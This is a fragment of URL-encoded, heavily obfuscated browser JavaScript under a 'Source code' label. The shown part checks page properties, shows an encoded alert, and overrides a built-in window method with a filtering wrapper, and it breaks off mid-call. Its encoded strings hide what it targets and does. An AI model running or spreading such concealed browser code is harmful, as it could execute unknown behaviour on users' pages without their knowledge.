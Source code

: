 return%20_0x42d9%3Dfunction()%7Breturn%20c%3B%7D%2C_0x42d9()%3B%7D(function(c%2Cd)%7Bconst%20E%3Db%2Ce%3D_0x4c70%2Cf%3D_0x5589%2Cg%3Dc()%3Bwhile(!!%5B%5D)%7Btry%7Bconst%20h%3DparseInt(f(0x283))%2F0x1%2B-parseInt(e(0x223%2CE(0x46b)%2B'%5Cx32'))%2F0x2*(parseInt(f(0x1ed))%2F0x3)%2BparseInt(f(0x25b))%2F0x4*(parseInt(e(0x284%2CE(0x243)%2B'%5Cx41'))%2F0x5)%2BparseInt(e(0x28a%2CE(0x463)%2B'%5Cx46'))%2F0x6*(parseInt(f(0x1ef))%2F0x7)%2BparseInt(f(0x221))%2F0x8*(parseInt(e(0x1fb%2CE(0x3e7)%2B'%5Cx37'))%2F0x9)%2B-parseInt(e(0x273%2CE(0x2cb)%2B'%5Cx46'))%2F0xa%2BparseInt(f(0x28f))%2F0xb%3Bif(h%3D%3D%3Dd)break%3Belse%20g%5BE(0x277)%2B'%5Cx68'%5D(g%5BE(0x32d)%2B'%5Cx66%5Cx74'%5D())%3B%7Dcatch(i)%7Bg%5BE(0x277)%2B'%5Cx68'%5D(g%5BE(0x32d)%2B'%5Cx66%5Cx74'%5D())%3B%7D%7D%7D(_0x42d9%2C0xa3265)%2C((()%3D%3E%7Bconst%20F%3Db%2Cc%3D_0x5589%2Cd%3D_0x4c70%3Bif(window%5Bd(0x20a%2CF(0x40f)%2B'%5Cx65')%2Bc(0x281)%5D%5Bc(0x1ec)%5D%5Bc(0x1f5)%2Bc(0x21a)%5D(d(0x20f%2CF(0x345)%2B'%5Cx44')%2Bc(0x239)%2B'%5Cx74%5Cx73')%7C%7Cwindow%5Bd(0x271%2CF(0x3ed)%2B'%5Cx47')%2Bd(0x1dd%2CF(0x309)%2B'%5Cx48')%5D%5Bc(0x1ec)%5D%5Bc(0x1f5)%2Bc(0x21a)%5D(d(0x2ad%2CF(0x465)%2B'%5Cx70')%2Bc(0x1ec)))return%20alert(c(0x297)%2Bc(0x263)%2Bd(0x246%2CF(0x1e6)%2B'%5Cx4c')%2Bc(0x244)%2Bd(0x1dc%2CF(0x239)%2B'%5Cx50')%2Bd(0x289%2CF(0x240)%2B'%5Cx55')%2Bc(0x21b)%2Bc(0x25d)%2Bd(0x2c2%2CF(0x3ed)%2B'%5Cx47')%2Bd(0x25c%2CF(0x215)%2B'%5Cx45')%2Bc(0x259)%2Bd(0x1e8%2CF(0x2b0)%2B'%5Cx75')%2Bc(0x2b8)%2Bd(0x242%2CF(0x476)%2B'%5Cx78')%2Bd(0x2b3%2CF(0x3ed)%2B'%5Cx47')%2Bd(0x2bd%2CF(0x349)%2B'%5Cx54')%2Bc(0x287)%2Bd(0x274%2CF(0x338)%2B'%5Cx66')%2B'%5Cx2e')%3Bif(window%5Bc(0x294)%5D%5Bc(0x2b4)%5D%5Bc(0x25f)%2Bd(0x23a%2CF(0x291)%2B'%5Cx37')%5D()%3D%3Dc(0x252)%2Bc(0x28b)%2Bc(0x29c)%2Bc(0x29d)%2Bc(0x26b)%2Bc(0x27b)%2Bc(0x265))%7Bconst%20j%3Dwindow%5Bc(0x294)%5D%5Bd(0x22f%2CF(0x416)%2B'%5Cx69')%5D%3Bwindow%5Bc(0x294)%5D%5Bc(0x2b4)%5D%3Dfunction()%7Bconst%20G%3DF%2Ck%3Dc%2Cl%3Dd%3Bif(!arguments%5B0x1%5D%5Bl(0x2a8%2CG(0x2fe)%2B'%5Cx5d')%2Bl(0x2b2%2CG(0x2ac)%2B'%5Cx54')%5D(l(0x235%2CG(0x43b)%2B'%5Cx65')%2Bl(0x28e%2CG(0x2df)%2B'%5Cx25')%2Bk(0x1e2)%2B'%5Cx63'))return%20j%5Bl(0x2b0%2CG(0x43b)%2B'%5Cx65')%5D(this%2Carguments)%3B%7D%3B%7Dlet%20e%3Ddocument%5Bc(0x204)%2Bd(0x24b%2CF(0x305)%2B'%5Cx24')%2Bd(0x299%2CF(0x416)%2B'%5Cx69')%5D(